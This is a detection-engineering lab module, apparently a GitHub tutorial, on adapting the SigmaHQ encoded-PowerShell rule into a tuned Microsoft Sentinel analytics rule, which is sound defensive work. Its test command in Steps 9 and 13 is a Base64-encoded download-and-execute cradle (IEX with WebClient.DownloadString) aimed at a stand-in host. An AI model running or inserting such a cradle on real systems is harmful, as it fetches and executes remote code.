









# 03 - Deploying & Validating Sigma Rules in Microsoft Sentinel

> **Module Objective:** Learn how to convert an official Sigma rule into a production-ready Microsoft Sentinel Scheduled Analytics Rule by validating, tuning, and testing it against real telemetry collected from a Windows Server using Sysmon.

---

# Overview

In the previous module, we learned how Sigma rules are structured and how they can be converted into Microsoft Sentinel compatible Kusto Query Language (KQL).

This module focuses on the practical implementation of a Sigma rule in Microsoft Sentinel.

Instead of directly deploying a converted Sigma rule, the detection is validated against live telemetry generated from a Windows Server protected with Sysmon. During implementation, the generated KQL is adapted to match the local telemetry schema, validated manually, and tuned before finally being deployed as a Scheduled Analytics Rule.

The detection is then tested by executing an encoded PowerShell command, resulting in a successful Microsoft Sentinel Alert and Incident.

This module closely mirrors the workflow followed by Detection Engineers when deploying community Sigma detections into production environments.

---

# Lab Objectives

After completing this module, you will be able to:

- Understand the deployment lifecycle of a Sigma rule.
- Validate PowerShell telemetry before building detections.
- Select an appropriate Sigma rule from the official SigmaHQ repository.
- Analyze the detection logic implemented by the Sigma rule.
- Convert Sigma rules into Kusto Query Language using Sigma CLI.
- Adapt Sigma-generated KQL to match Sysmon Event ID 1 telemetry.
- Validate KQL queries before operational deployment.
- Tune generated detections for Microsoft Sentinel.
- Deploy a Scheduled Analytics Rule.
- Generate attack telemetry.
- Validate Alert and Incident creation.
- Understand common detection engineering challenges during Sigma deployments.

---

# Lab Environment

| Component | Value |
|------------|-------|
| SIEM | Microsoft Sentinel |
| Log Workspace | Azure Log Analytics |
| Windows Host | Windows Server 2022 |
| Telemetry Source | Sysmon |
| Event Table | Event |
| Event ID | 1 (Process Creation) |
| Detection Platform | Microsoft Sentinel |
| Rule Format | Sigma |
| Query Language | Kusto Query Language (KQL) |
| Conversion Tool | Sigma CLI |

---

# Prerequisites

Before starting this module, ensure the following components are already configured.

- Azure Subscription
- Microsoft Sentinel Workspace
- Windows Server connected to Sentinel
- Sysmon installed
- Sysmon Event ID 1 ingestion
- PowerShell Operational Logging enabled
- Sigma CLI installed
- Python installed

---

# Architecture Workflow

```
Official Sigma Rule
        │
        ▼
Analyze Detection Logic
        │
        ▼
Convert Sigma → KQL
        │
        ▼
Adapt KQL to Local Telemetry
        │
        ▼
Validate Detection
        │
        ▼
Tune Detection Logic
        │
        ▼
Create Scheduled Analytics Rule
        │
        ▼
Generate Attack Telemetry
        │
        ▼
Alert Generated
        │
        ▼
Incident Created
```

---

# Step 1 - Validate PowerShell Telemetry

Before deploying any Sigma rule, it is important to verify that the required telemetry is already reaching Microsoft Sentinel.

Since the selected Sigma rule detects encoded PowerShell execution, the environment must already collect PowerShell process creation events.

The following KQL query was executed to verify that PowerShell telemetry was successfully ingested.

```kusto
Event
| where EventLog has "PowerShell"
| sort by TimeGenerated desc
```

Successful results confirmed that PowerShell Operational logs were available for detection engineering.

---

<p align="center">
 <br><br>

</p>

---

# Step 2 - Select Official Sigma Rule

Instead of creating a Sigma rule from scratch, an official rule from the SigmaHQ repository was selected.

Selected Rule

```
proc_creation_win_powershell_base64_encoded_cmd.yml
```

A local copy of the rule was created inside the repository.

Only the metadata such as author information was modified.

The detection logic remained unchanged.

This approach ensures that the deployed detection remains faithful to the original community-maintained Sigma rule.

---

<p align="center">

</p>

---

# Step 3 - Analyze the Sigma Rule

Before converting the rule into KQL, its detection logic was analyzed.

The rule is designed to identify PowerShell processes launched with Base64 encoded commands.

Rather than detecting every encoded command, it searches for commonly observed Base64 prefixes frequently associated with malicious PowerShell payloads.

The rule validates several conditions including:

- PowerShell executable
- Encoded command switches
- Suspicious Base64 prefixes
- False positive exclusion for `-ExecutionPolicy RemoteSigned`

Understanding the rule before conversion makes troubleshooting significantly easier during deployment.

---

<p align="center">

</p>

---

# Step 4 - Convert Sigma Rule to Microsoft Sentinel KQL

After validating the Sigma rule, it was converted into Microsoft Sentinel Kusto Query Language (KQL).

The following command was used:

```powershell
sigma convert `
-t kusto `
Sigma-Rules\proc_creation_win_powershell_base64_encoded_cmd.yml
```

### Command Breakdown

| Parameter | Description |
|------------|-------------|
| `sigma convert` | Converts Sigma rules into SIEM queries |
| `-t` | Specifies the conversion target |
| `kusto` | Generates Microsoft Sentinel KQL |
| `Sigma-Rules\...` | Sigma rule to convert |

---

## Conversion Output

Sigma CLI successfully generated a Kusto Query Language query similar to:

```kusto
((Image endswith "\\powershell.exe" or Image endswith "\\pwsh.exe")
or
(OriginalFileName in~ ("PowerShell.EXE","pwsh.dll")))
and
(
CommandLine contains " -e"
...
)
```

Although the conversion completed successfully, the generated query could **not** be deployed directly into Microsoft Sentinel because it assumed a normalized process creation schema.

The generated KQL references fields such as:

- `Image`
- `OriginalFileName`
- `CommandLine`

However, the lab environment stores Sysmon Process Creation events inside the **Event** table, where these fields are embedded within the `RenderedDescription` column.

Therefore, the generated query required additional tuning before deployment.

---

<p align="center">

</p>

---

# Step 5 - Analyze the Generated KQL

Before modifying the query, the generated KQL was compared against the available telemetry.

The Sigma-generated query assumes normalized process creation fields.

| Sigma Field | Generated KQL | Available in Lab |
|--------------|---------------|------------------|
| Image | ✅ | Embedded in RenderedDescription |
| CommandLine | ✅ | Embedded in RenderedDescription |
| OriginalFileName | ✅ | Embedded in RenderedDescription |

This meant that the query logic itself was correct, but the field mapping was incompatible with the telemetry available in Microsoft Sentinel.

Instead of rewriting the detection logic, only the field extraction mechanism needed to be adapted.

---

# Step 6 - Inspect Process Creation Events

To understand how Sysmon stores process creation information, Event ID 1 records were inspected.

The following query was executed.

```kusto
Event
| where EventID == 1
| where RenderedDescription has "powershell.exe"
| project
    TimeGenerated,
    Computer,
    RenderedDescription
| take 5
```

The inspection confirmed that all required fields were present inside `RenderedDescription`, including:

- Image
- OriginalFileName
- CommandLine
- ParentImage
- ParentCommandLine
- ProcessId
- ProcessGuid

This observation made it possible to extract these values using KQL regular expressions instead of relying on non-existent columns.

---

# Step 7 - Extract Required Fields

The next step was to extract the required Sigma fields from `RenderedDescription`.

```kusto
Event
| where EventID == 1
| extend
    Image = extract(@"Image:\s*(.*?)\s+FileVersion:",1,RenderedDescription),
    OriginalFileName = extract(@"OriginalFileName:\s*(.*?)\s+CommandLine:",1,RenderedDescription),
    CommandLine = extract(@"CommandLine:\s*(.*?)\s+CurrentDirectory:",1,RenderedDescription)
| project
    TimeGenerated,
    Computer,
    Image,
    OriginalFileName,
    CommandLine
| take 5
```

This produced normalized columns that closely matched the fields expected by the original Sigma rule.

At this stage, the generated Sigma KQL could begin to be adapted instead of rewritten.

---

# Summary

At the end of this phase:

- ✅ Sigma CLI was verified.
- ✅ Official Sigma rule converted successfully.
- ✅ Generated KQL inspected.
- ✅ Telemetry schema analyzed.
- ✅ Required fields extracted from Sysmon Event ID 1.

The next phase focuses on adapting the generated KQL, validating the detection, tuning the query, and finally deploying it as a Microsoft Sentinel Scheduled Analytics Rule.

---

# Step 8 - Adapt the Generated KQL

The Sigma-generated KQL could not be used directly because it expected normalized process creation fields (`Image`, `CommandLine`, and `OriginalFileName`).

In this lab, Sysmon Process Creation events are stored in the **Event** table, with all process information embedded inside the `RenderedDescription` field.

Rather than changing the detection logic, the Sigma fields were mapped to the available telemetry by extracting them using regular expressions.

---

## Field Mapping

| Sigma Field | Microsoft Sentinel Mapping |
|--------------|----------------------------|
| Image | Extracted from `RenderedDescription` |
| OriginalFileName | Extracted from `RenderedDescription` |
| CommandLine | Extracted from `RenderedDescription` |

This preserved the original Sigma detection logic while making it compatible with the local telemetry schema.

---

# Step 9 - Validate the Detection Incrementally

Instead of pasting the complete Sigma-generated KQL into Sentinel, each detection condition was validated individually.

This incremental validation approach made troubleshooting straightforward and ensured every condition behaved as expected.

---

## Validate PowerShell Process Detection

The first validation confirmed that the query correctly identified PowerShell process creation events.

```kusto
Event
| where EventID == 1
| extend
    Image = extract(@"Image:\s*(.*?)\s+FileVersion:",1,RenderedDescription),
    OriginalFileName = extract(@"OriginalFileName:\s*(.*?)\s+CommandLine:",1,RenderedDescription),
    CommandLine = extract(@"CommandLine:\s*(.*?)\s+CurrentDirectory:",1,RenderedDescription)
| where Image endswith @"\powershell.exe"
    or OriginalFileName =~ "PowerShell.EXE"
| project
    TimeGenerated,
    Computer,
    Image,
    OriginalFileName,
    CommandLine
```

Successful execution confirmed that the extracted fields matched the expected PowerShell telemetry.

---

## Generate Test Telemetry

To validate the detection, an encoded PowerShell command was executed on the Windows Server.

```powershell
powershell.exe -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAiACkA
```

This command generated:

- Sysmon Event ID 1
- PowerShell Operational logs
- Microsoft Sentinel telemetry

The generated event was then confirmed inside Sentinel.

```kusto
Event
| where EventID == 1
| where RenderedDescription has "EncodedCommand"
| sort by TimeGenerated desc
```

---

# Step 10 - Detection Engineering & Query Tuning

Although the generated KQL appeared correct, it did **not** initially detect the generated telemetry.

Instead of modifying the query blindly, each detection condition was validated individually until the root cause was identified.

This mirrors the troubleshooting approach followed by Detection Engineers when deploying community detections.

---

## Root Cause Analysis

The investigation confirmed that:

- PowerShell process detection worked.
- Field extraction worked.
- Encoded command detection worked.
- Base64 prefix detection failed.

The issue was traced to the KQL operator used for matching Base64 strings.

---

## `has` vs `contains`

The Sigma-generated KQL searched for Base64 prefixes using token-based matching.

Example:

```kusto
CommandLine has "SQBFAFgA"
```

Although the Base64 string clearly contained the prefix, the query returned no results.

The reason is that the **`has`** operator searches for indexed terms rather than arbitrary substrings.

Since Base64 payloads are continuous strings, substring matching is more appropriate.

Replacing `has` with `contains` immediately resolved the issue.

```kusto
CommandLine contains "SQBFAFgA"
```

This small adjustment preserved the original detection logic while making it compatible with the telemetry collected in the lab.

> **Detection Engineering Insight**
>
> Sigma-generated queries should always be validated against the target telemetry. Small differences in field schemas or KQL operators can prevent an otherwise correct detection from generating alerts.

---

# Step 11 - Final Validated KQL

After tuning and validating the detection, the following KQL successfully detected encoded PowerShell execution.

```kusto
Event
| where EventID == 1
| extend
    Image = extract(@"Image:\s*(.*?)\s+FileVersion:", 1, RenderedDescription),
    OriginalFileName = extract(@"OriginalFileName:\s*(.*?)\s+CommandLine:", 1, RenderedDescription),
    CommandLine = extract(@"CommandLine:\s*(.*?)\s+CurrentDirectory:", 1, RenderedDescription)
| where
    Image endswith @"\powershell.exe"
    or Image endswith @"\pwsh.exe"
    or OriginalFileName =~ "PowerShell.EXE"
    or OriginalFileName =~ "pwsh.dll"
| where CommandLine has_any (
    "-EncodedCommand",
    "-enc",
    "-e"
)
| where
    CommandLine contains "JAB"
    or CommandLine contains "SUVYI"
    or CommandLine contains "SQBFAFgA"
    or CommandLine contains "aQBlAHgA"
    or CommandLine contains "aWV4I"
    or CommandLine contains "IAA"
    or CommandLine contains "IAB"
    or CommandLine contains "UwB"
    or CommandLine contains "cwB"
| where CommandLine !contains "-ExecutionPolicy RemoteSigned"
| project
    TimeGenerated,
    Computer,
    Image,
    OriginalFileName,
    CommandLine
| order by TimeGenerated desc
```

The validated query successfully returned the encoded PowerShell execution generated during testing.

---

<p align="center">

</p>

---

# Summary

At the end of this phase:

- ✅ Sigma fields successfully mapped to Sysmon telemetry.
- ✅ PowerShell detection validated.
- ✅ Test telemetry generated.
- ✅ Detection tuned.
- ✅ Root cause identified.
- ✅ `has` replaced with `contains` for Base64 matching.
- ✅ Final KQL validated against live telemetry.

The detection is now ready to be operationalized as a Microsoft Sentinel Scheduled Analytics Rule.

---

# Step 12 - Create the Scheduled Analytics Rule

After validating the KQL manually, the next step was to operationalize the detection by creating a **Scheduled Analytics Rule** in Microsoft Sentinel.

Manual validation before deployment is an important detection engineering practice because it confirms that the query works correctly before introducing automation.

---

## Rule Configuration

| Setting | Value |
|----------|-------|
| Rule Name | Sigma \| PowerShell Base64 Encoded Command |
| Severity | Medium |
| Status | Enabled |
| MITRE ATT&CK | T1059.001 - PowerShell |
| Query Frequency | Every 5 Minutes |
| Lookup Period | Last 5 Minutes |
| Alert Threshold | Greater than 0 Results |
| Event Grouping | Group all events into a single alert |
| Incident Creation | Enabled |

---

## Entity Mapping

The following entity mapping was configured.

| Entity | Column |
|----------|--------|
| Host | Computer |

---

## Custom Details

To improve analyst visibility during investigations, the following custom details were added to the alert.

| Custom Detail | Column |
|---------------|--------|
| Image | Image |
| OriginalFileName | OriginalFileName |
| CommandLine | CommandLine |

Including these fields allows analysts to quickly understand why the alert was generated without immediately opening the raw event.

---

<p align="center">

</p>

---

# Step 13 - Trigger the Detection

After enabling the Scheduled Analytics Rule, the encoded PowerShell command was executed once again to generate fresh telemetry.

```powershell
powershell.exe -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAiACkA
```

Once the rule executed according to its configured schedule, Microsoft Sentinel successfully generated an alert.

---

# Step 14 - Validate Alert Generation

The alert confirmed that the adapted Sigma detection was functioning correctly within Microsoft Sentinel.

Validation included:

- Rule executed successfully.
- Alert generated.
- Correct severity applied.
- MITRE ATT&CK technique assigned.
- Host entity resolved.
- Custom details populated with extracted process information.

This completed the end-to-end validation of the Sigma detection.

---

<p align="center">

</p>

---

# Step 15 - Validate Incident Creation

Microsoft Sentinel automatically created an incident from the generated alert.

The incident contained:

- Alert details
- Host entity
- Investigation timeline
- Detection metadata
- Alert evidence

This confirmed that the complete detection pipeline—from Sigma rule to operational Sentinel incident—was functioning successfully.

---

<p align="center">

</p>

---

# Detection Engineering Lessons Learned

This module demonstrates that converting a Sigma rule is only the first step in the deployment process.

Several practical engineering tasks were required before the detection became production-ready:

- Validated prerequisite telemetry before deployment.
- Converted an official SigmaHQ rule to Microsoft Sentinel KQL.
- Mapped generic Sigma fields to Sysmon Event ID 1 telemetry.
- Extracted process fields from `RenderedDescription`.
- Validated each detection condition independently.
- Identified why the generated query failed.
- Tuned the detection using the appropriate KQL operators.
- Verified the final KQL against live telemetry.
- Operationalized the detection as a Scheduled Analytics Rule.
- Successfully generated both an alert and an incident.

These activities closely resemble the workflow followed by Detection Engineers when onboarding community detections into enterprise SIEM environments.

---

# Key Takeaways

- Sigma rules are portable detection definitions, but converted queries often require environment-specific tuning.
- Understanding the telemetry schema is essential before deploying detections.
- Incremental validation simplifies troubleshooting and reduces deployment errors.
- Choosing the correct KQL operator (`contains` vs. `has`) can directly affect detection accuracy.
- Manual query validation should always precede Analytics Rule creation.
- Custom Details and Entity Mapping improve the analyst investigation experience.
- Successful detection engineering involves understanding, validating, adapting, and operationalizing detections rather than simply converting them.

---

# Conclusion

In this module, an official SigmaHQ detection was successfully transformed into a fully operational Microsoft Sentinel detection.

The workflow covered the complete detection lifecycle:

- Selection of an official Sigma rule.
- Rule analysis.
- Sigma-to-KQL conversion.
- Field mapping and telemetry adaptation.
- Query validation and tuning.
- Deployment as a Scheduled Analytics Rule.
- Generation of attack telemetry.
- Successful creation of a Microsoft Sentinel Alert and Incident.

This practical approach demonstrates how Sigma rules can be effectively integrated into Microsoft Sentinel while emphasizing the importance of validation, troubleshooting, and tuning during the deployment process.

---

## Module Status

| Activity | Status |
|-----------|--------|
| PowerShell Telemetry Validated | ✅ |
| Official Sigma Rule Selected | ✅ |
| Sigma Rule Converted to KQL | ✅ |
| Telemetry Mapping Completed | ✅ |
| Detection Tuned | ✅ |
| KQL Validated | ✅ |
| Scheduled Analytics Rule Created | ✅ |
| Attack Simulation Performed | ✅ |
| Alert Generated | ✅ |
| Incident Created | ✅ |

---
